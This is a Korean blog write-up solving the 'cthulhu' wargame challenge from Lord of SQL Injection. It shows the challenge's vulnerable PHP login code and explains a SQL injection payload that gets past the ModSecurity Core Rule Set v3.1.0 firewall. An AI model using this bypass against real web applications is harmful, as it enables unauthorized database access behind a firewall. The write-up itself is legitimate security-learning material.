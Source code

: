 ```yaml
---
title: "[Lord of SQL Injection] LoS - cthulhu 문제풀이"
date: 2019-06-12
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


며칠 전, 2번에 걸쳐서 `LoS`의 문제가 업데이트 되었다.
이번이 랭킹에 이름을 올릴 수 있는 기회이길래 얼른 다 풀었다.
까먹기 전에 정리를 해 두려 한다.
첫 번째 문제 이름은 `cthulhu`이다.  

<!--more-->

코드는 다음과 같다.  

```php
modsec.rubiya.kr server is running ModSecurity Core Rule Set v3.1.0 with paranoia level 1(default).
It is the latest version now.(2019.05)
Can you bypass the WAF?
-------------------------------------------------------------
query : select id from prob_cthulhu where id='' and pw=''
-------------------------------------------------------------

<?php
  include "./welcome.php";
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_cthulhu where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("cthulhu");
  highlight_file(__FILE__);
?>
```

문제의 소스코드 자체는 어렵지 않다.
그런데 `ModSecurity Core Rule Set v3.1.0` 이라는 방화벽이 추가되어 있다.
그래서 흔히 사용하는 방법으로 `SQL Injection`을 시도하면 자꾸 `Forbidden Error`가 나온다.
때문에 방화벽을 우회 해 문제를 풀어야 한다.
일단 나는 `ModSecurity Core Rule Set`이 뭔지를 몰라서 구글에 검색을 해 보았다.
그러다 아래와 같은 사이트를 찾았다.  

> [https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181](https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181)

여기에 적힌 방법 중 아래의 방법으로 문제를 풀 수 있었다.  

```plain
-1'<@=1 OR {a 1}=1 OR '
```

이 내용을 문제에 적용하면 다음과 같다.  

```plain
id=-1'<@=1 OR 1=1 OR '&pw=a
```

`{a 1}=1` 부분은 `1=1`로 변경했다.
해당 구문이 이해가 되지 않아서였는데, `{a 1}=1`은 테스트 해 보면 `true`가 되며, `select {a 1}`을 하면 `1`이 나온다.
아마도 아래의 이유 때문인 것 같은데, 정확하지 않아서 연구를 더 해봐야 알 것 같다.  

> [https://dev.mysql.com/doc/refman/5.7/en/expressions.html](https://dev.mysql.com/doc/refman/5.7/en/expressions.html)

```plain
{identifier expr} is ODBC escape syntax and is accepted for ODBC compatibility. The value is expr. The { and } curly braces in the syntax should be written literally; they are not metasyntax as used elsewhere in syntax descriptions.
```

어쨌든 해당 쿼리를 전달하면, 최종적으로 완성되는 쿼리는 다음과 같다.  

```mysql
select id from prob_cthulhu where id='-1'<@=1 OR 1=1 OR '' and pw='a'
```

`where` 절의 조건을 살펴보면 크게 `id='-1'<@=1`, `1=1`, `'' and pw='a'`로 나눌 수 있을 것이다.
먼저 첫 번째 조건인 `id='-1'<@1`의 경우, `'-1'<@1`이 `NULL`이 되면서 `id=NULL`로 만들어진다.
당연히 `id=NULL`인 행은 없기 때문에 다음 조건으로 넘어가게 된다.
이 때 두 번째 조건은 `1=1` 이므로 참이 되어 디비에서 값을 추출할 수 있게 된다.
문제에서는 `id`의 값이 무엇이든, `id`를 추출할 수 있기만 하면 되므로, 위의 쿼리를 통해 문제를 풀 수 있다.

```php
modsec.rubiya.kr server is running ModSecurity Core Rule Set v3.1.0 with paranoia level 1(default).
It is the latest version now.(2019.05)
Can you bypass the WAF?
---------------------------------------------------------------------------------------
query : select id from prob_cthulhu where id='-1'<@=1 OR 1=1 OR '' and pw='a'
---------------------------------------------------------------------------------------

CTHULHU Clear!
<?php
  include "./welcome.php";
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_cthulhu where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("cthulhu");
  highlight_file(__FILE__);
?>
```
---

```plain
CTHULHU Clear!!
```